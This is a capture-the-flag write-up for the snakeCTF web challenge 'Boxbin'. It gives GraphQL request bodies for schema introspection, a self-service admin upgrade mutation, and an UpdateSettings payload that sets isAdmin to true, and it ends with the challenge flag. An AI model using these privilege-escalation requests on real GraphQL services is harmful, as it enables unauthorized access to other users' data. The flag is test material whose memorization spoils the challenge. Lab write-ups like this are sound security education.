



# [Web] Boxbin
**Final Solves**: 41



---

## Solution

When launching the challenge, I was greeted by a Next.js website. One thing that immediately stood out was the use of **GraphQL as the backend**. <br/>
The natural first step was to perform an **introspection query**, which allowed me to explore the schema and see what queries and mutations were available.

```json
{
  "operationName": "IntrospectionQuery",
  "variables": {},
  "query": "query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n            }\n          }\n        }\n      }\n    }\n  }\n}"
}
```

After some trial and error, I discovered a critical flaw: any registered user could upgrade themselves: The function `adminUserUpgrade(!ID)` **didn't properly enforce permissions**. By providing an ID between 1-8, I could assign myself **any available VIP status**.

```json
{
  "operationName": "AdminUserUpgrade",
  "variables": {
    "upgradeId": 1
  },
  "query": "mutation AdminUserUpgrade($upgradeId: ID!) {\n  adminUserUpgrade(upgradeId: $upgradeId) {\n    id\n    username\n    isAdmin\n    upgrades {\n      id\n      name\n      description\n    }\n    __typename\n  }\n}"
}
```

Finally I had my VIB (Very Important Box) Status! <br/>
With the newly acquired permissions, I was able to access the "**Settings**" tab in my profile.



Once I had access to the Settings tab, two new options appeared: **"Bio"** and **"Posts Per Page"**. At first glance, they seemed harmless, but this page turned out to be the key to solving the challenge. <br/>

Under the hood, the "Posts per Page" triggered a request to the **UpdateSettings** GraphQL mutation, passing a JSON payload as the settings parameter. Curious, I tried sending the following payload to set myself as admin:

```json
{
  "operationName":"UpdateSettings",
  "variables":{"settings":"{\"isAdmin\":true}"},
  "query":"mutation UpdateSettings($settings: String!) { updateSettings(settings: $settings) }"
}
```

And it **worked**. With this, I could now access everyone's hidden posts, unlocking the flag!



`snakeCTF{y0ur3_0n_b0xb1n_n0w_8064c38750245b23}`
